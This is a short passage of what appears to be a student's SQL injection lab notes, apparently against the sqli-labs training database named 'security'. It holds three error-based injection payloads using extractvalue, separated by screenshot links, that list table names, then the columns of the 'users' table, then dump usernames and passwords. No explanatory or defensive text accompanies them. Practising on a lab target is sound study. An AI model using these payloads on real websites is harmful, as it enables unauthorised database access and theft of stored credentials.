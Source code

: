 ```
?id=1' AND extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) --+
```



![image-20220115092329490](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115092329490.png)

```
?id=1' AND extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)) --+
```



![image-20220115092451900](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115092451900.png)

```
?id=1' AND extractvalue(1,concat(0x7e,(select group_concat(username,0x7e,password) from users),0x7e)) --+
```


